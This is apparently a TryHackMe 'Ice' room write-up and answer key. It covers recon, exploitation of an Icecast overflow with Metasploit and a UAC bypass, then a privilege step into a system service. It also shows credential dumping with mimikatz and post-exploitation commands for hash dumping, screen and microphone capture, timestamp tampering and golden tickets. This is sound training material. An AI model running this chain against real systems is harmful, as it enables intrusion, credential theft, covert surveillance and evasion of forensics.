 +++ 
title = "Ice THM Solutions"
description = "Solutions for the THM room 'Ice'"
author = "greatmoves"
tags = ["tryhackme", "windows"]
date = 2023-04-26
+++
- [1. Recon](#1-recon)
- [2. Gain Access](#2-gain-access)
- [3. Escalate](#3-escalate)
- [4. Looting](#4-looting)
- [5. Post-Exploitation](#5-post-exploitation)
# 1. Recon
Run command: `nmap -sC -sV 10.10.127.78`
- Which port is Microsoft Remote Desktop (MSRDP) open on? `3389`
- What service did nmap identify as running on port 8000? `Icecast streaming media server`
- What does Nmap identify as the hostname of the machine? `Dark-PC`

# 2. Gain Access
[cvedetails](https://www.cvedetails.com/cve/CVE-2004-1561/)
- What type of vulnerability is it? ` Execute Code Overflow`
- What is the CVE number for this vulnerability? `CVE-2004-1561`

Run command: `msfconsole`

Run command: `search icecast`
- What is the full path (starting with exploit) for the exploitation module? `exploit/windows/http/icecast_header`

Run command: `show options`

- What is the only required setting which currently is blank? `RHOSTS`

Run command: `run`

# 3. Escalate
- What's the name of the shell we have now? `meterpreter`

Run command: `getuid`

- What user was running that Icecast process? `Dark`

Run command: `sysinfo`

- What build of Windows is the system? `7601`
- what is the architecture of the process we're running? `x64`

Run command: `run post/multi/recon/local_exploit_suggester`

- What is the full path (starting with exploit/) for the first returned exploit? `exploit/windows/local/bypassuac_eventvwr`

Run command: `use exploit/windows/local/bypassuac_eventvwr`

Run command: `set session 1`

Run command: `set lhost THM_IP`

Run command: `run`

Run command: `getprivs`

- What permission listed allows us to take ownership of files? `SeTakeOwnershipPrivilege`

# 4. Looting

Run command: `ps`

- What's the name of the printer service? `spoolsv.exe`

Run command: `migrate -N spoolsv.exe`

Run command: `getuid`

- What user is listed? `NT AUTHORITY\SYSTEM`

Run command: `load kiwi`

Run command: `help`

- Which command allows up to retrieve all credentials? `creds_all`

Run command: `creds_all`

- What is Dark's password? `Password01!`

# 5. Post-Exploitation

Run command: `help`

- What command allows us to dump all of the password hashes stored on the system? `hashdump`
- what command allows us to watch the remote user's desktop in real time? `screenshare`
- How about if we wanted to record from a microphone attached to the system? `record_mic`
- To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? `timestomp`
- Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this? `golden_ticket_create`

